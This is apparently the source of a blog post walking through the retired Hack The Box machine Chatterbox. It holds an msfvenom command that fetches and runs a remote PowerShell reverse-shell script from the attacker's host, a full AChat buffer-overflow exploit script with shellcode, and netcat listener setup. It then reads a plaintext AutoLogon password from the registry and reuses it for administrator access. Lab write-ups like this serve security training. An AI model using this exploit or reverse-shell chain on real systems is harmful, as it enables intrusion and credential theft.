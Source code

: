 ```yaml
---
layout: post
title: "HTB: Chatterbox Walkthrough"
---
```


<img src="{{ '/assets/images/chatterbox-icon.png' | relative_url }}" alt="Chatterbox Icon" />

# intro

The goal of this post to provide an updated version of Hack The Boxes machine, [Chatterbox](https://app.hackthebox.com/machines/123) (I am not sure if any one else has made a similar post but more than one doesn't hurt). 

There where a few trouble areas when doing this machine so my goal is to help anyone who may have ran into similar issues themsleves. I followed [0xdf's](https://0xdf.gitlab.io/2018/06/18/htb-chatterbox.html) walkthrough and there seems to be seem dated steps that could be updated. I intend to correct these dated issues with this post.

Let's dive in! 

## reconnaissance

As usual with any CTF-type machine, we are going to start out with an **nmap** scan:

```bash
t3lesph0re@neptune:~$ nmap -p- 10.10.10.74

Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-14 18:39 EDT
Nmap scan report for 10.10.10.74
Host is up (0.030s latency).
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
9255/tcp  open  mon
9256/tcp  open  unknown
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 60.09 seconds
```

The **nmap** scan shows that there are two _non-default_ ports outside of the default top 1000 ports that are usually open, port `9255` and `9256`. 

### AChat on port 9256

There is a service called **AChat** running on port `9255` and `9256`. There is a known [buffer overflow](https://www.exploit-db.com/exploits/36025) that affects the version on AChat running on our attack machine. The exploits is sent to port `9256 / UDP`. 

## initial exploit 

Because this is a windows host, we can use [Nishang's](https://github.com/samratashok/nishang) **Invoke-PowerShellTcp.ps1** script to get a shell. 

We will create a payload with **msfvenom** and deliver it via the Exploit-DB Python script to exploit the AChat vulnerability. Successful exploitation will run **Invoke-PowerShellTcp.ps1** and attempt to establish a reverse shell.

This is the **msfvenom** command to generate the shell code that we will use in the Python script:

```bash
t3lesph0re@neptune:~$ msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell iex(new-object net.webclient).downloadstring('http://10.10.14.8/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.8 -Port 8082" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode
```

This will save a **Python-formatted representation** of the generated payload to the file **shellcode**. When you output this file you will have your encoded shell that you will need to put into the Exploit-DB script (see below):

```python
#!/usr/bin/python
# Author KAhara MAnhara
# Achat 0.150 beta7 - Buffer Overflow
# Tested on Windows 7 32bit

import socket
import sys, time

# REPLACE THIS w/ Shellcode 
buf =  ""
buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += "\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += "\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += "\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += "\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += "\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += "\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += "\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += "\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += "\x47\x42\x39\x75\x34\x4a\x42\x69\x6c\x77\x78\x62\x62"
buf += "\x69\x70\x59\x70\x4b\x50\x73\x30\x43\x59\x5a\x45\x50"
buf += "\x31\x67\x50\x4f\x74\x34\x4b\x50\x50\x4e\x50\x34\x4b"
buf += "\x30\x52\x7a\x6c\x74\x4b\x70\x52\x4e\x34\x64\x4b\x63"
buf += "\x42\x4f\x38\x4a\x6f\x38\x37\x6d\x7a\x4d\x56\x4d\x61"
buf += "\x49\x6f\x74\x6c\x4f\x4c\x6f\x71\x33\x4c\x69\x72\x4e"
buf += "\x4c\x4f\x30\x66\x61\x58\x4f\x5a\x6d\x59\x71\x67\x57"
buf += "\x68\x62\x48\x72\x52\x32\x50\x57\x54\x4b\x72\x32\x4e"
buf += "\x30\x64\x4b\x6e\x6a\x4d\x6c\x72\x6b\x70\x4c\x4a\x71"
buf += "\x43\x48\x39\x53\x71\x38\x6a\x61\x36\x71\x4f\x61\x62"
buf += "\x6b\x42\x39\x4f\x30\x4a\x61\x38\x53\x62\x6b\x30\x49"
buf += "\x6b\x68\x58\x63\x4e\x5a\x6e\x69\x44\x4b\x6f\x44\x72"
buf += "\x6b\x4b\x51\x36\x76\x70\x31\x69\x6f\x46\x4c\x57\x51"
buf += "\x48\x4f\x4c\x4d\x6a\x61\x55\x77\x4f\x48\x57\x70\x54"
buf += "\x35\x49\x66\x49\x73\x51\x6d\x7a\x58\x6d\x6b\x53\x4d"
buf += "\x4e\x44\x34\x35\x38\x64\x62\x38\x62\x6b\x52\x38\x6b"
buf += "\x74\x69\x71\x4a\x33\x33\x36\x54\x4b\x7a\x6c\x6e\x6b"
buf += "\x72\x6b\x51\x48\x6d\x4c\x6b\x51\x67\x63\x52\x6b\x49"
buf += "\x74\x72\x6b\x4d\x31\x7a\x30\x44\x49\x51\x34\x6e\x44"
buf += "\x4b\x74\x61\x4b\x51\x4b\x4f\x71\x51\x49\x71\x4a\x52"
buf += "\x31\x49\x6f\x69\x50\x31\x4f\x51\x4f\x6e\x7a\x34\x4b"
buf += "\x6a\x72\x38\x6b\x44\x4d\x71\x4d\x50\x6a\x59\x71\x64"
buf += "\x4d\x35\x35\x65\x62\x4b\x50\x49\x70\x4b\x50\x52\x30"
buf += "\x32\x48\x6c\x71\x64\x4b\x72\x4f\x51\x77\x59\x6f\x79"
buf += "\x45\x45\x6b\x48\x70\x75\x65\x35\x52\x30\x56\x72\x48"
buf += "\x33\x76\x35\x45\x37\x4d\x63\x6d\x49\x6f\x37\x65\x6d"
buf += "\x6c\x6a\x66\x31\x6c\x79\x7a\x51\x70\x4b\x4b\x67\x70"
buf += "\x53\x45\x6d\x35\x55\x6b\x31\x37\x4e\x33\x32\x52\x30"
buf += "\x6f\x42\x4a\x6d\x30\x50\x53\x79\x6f\x37\x65\x70\x63"
buf += "\x53\x31\x72\x4c\x30\x63\x4c\x6e\x70\x65\x32\x58\x50"
buf += "\x65\x6d\x30\x41\x41"
# REPLACE THIS w/ Shellcode ^

# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.10.10.74', 9256) # UPDATED IP POINTING TO TARGET

fs = "\x55\x2A\x55\x6E\x58\x6E\x05\x14\x11\x6E\x2D\x13\x11\x6E\x50\x6E\x58\x43\x59\x39"
p  = "A0000000002#Main" + "\x00" + "Z"*114688 + "\x00" + "A"*10 + "\x00"
p += "A0000000002#Main" + "\x00" + "A"*57288 + "AAAAASI"*50 + "A"*(3750-46)
p += "\x62" + "A"*45
p += "\x61\x40" 
p += "\x2A\x46"
p += "\x43\x55\x6E\x58\x6E\x2A\x2A\x05\x14\x11\x43\x2d\x13\x11\x43\x50\x43\x5D" + "C"*9 + "\x60\x43"
p += "\x61\x43" + "\x2A\x46"
p += "\x2A" + fs + "C" * (157-len(fs)- 31-3)
p += buf + "A" * (1152 - len(buf))
p += "\x00" + "A"*10 + "\x00"

print "---->{P00F}!"
i=0
while i<len(p):
    if i > 172000:
        time.sleep(1.0)
    sent = sock.sendto(p[i:(i+8192)], server_address)
    i += sent
sock.close()
```

Once you have updated this script, we will need 3 seperate terminals: python HTTP server, listener, and the exploit script. 

1. Start the HTTP python server:

```bash
t3lesph0re@neptune:~$ python3 -m http.server 80
```

2. Start the listener:

```bash
t3lesph0re@neptune:~$ nc -lnvp 8082
```

3. Run the Python script:

Because the script shebang shows **#!/usr/bin/python**, we will use **Python2**:

```bash
t3lesph0re@neptune:~$ python2 36025
```

The Python script will run and you will see that the **Invoke-PowerShellTcp.ps1** was grab from the Python HTTP server `10.10.10.74 - - [14/Oct/2025 19:09:22] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -`. Additionally, the script will output its `---->{P00F}!` and you will get your reverse shell for the user **chatterbox\alfred**. 

<figure>
  <img src="{{ '/assets/images/chatterbox-revshell.png' | relative_url }}" alt="Chatterbox Reverse Shell" />
  <figcaption>Reverse Shell as user Alfred</figcaption>
</figure>

## privilege escaation to admin

From here we can use our low level user shell to enumerate the AutoLogon credentials:

```powershell
PS C:\> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon"

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ    
    LegalNoticeText    REG_SZ    
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    ShutdownWithoutLogon    REG_SZ    0
    WinStationsDisabled    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    scremoveoption    REG_SZ    0
    ShutdownFlags    REG_DWORD    0x11
    DefaultDomainName    REG_SZ    
    DefaultUserName    REG_SZ    Alfred
    AutoAdminLogon    REG_SZ    1
    DefaultPassword    REG_SZ    Welcome1!
```

Here we can see that the _DefaultPassword_ **Welcome1!** is in plaintext. 

Using **winexe** we can login using this password for the user **administrator** to grab the final flag of the challenge! 

```bash
t3lesph0re@neptune:~$ winexe -U 'administrator%Welcome1!' //10.10.10.74 cmd.exe
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\administrator
```
Screenshot showing admin access: 

<figure>
  <img src="{{ '/assets/images/chatterbox-admin.png' | relative_url }}" alt="Chatterbox Admin" />
  <figcaption>Access as Admin</figcaption>
</figure>

I hope this was helpful!
 
# end 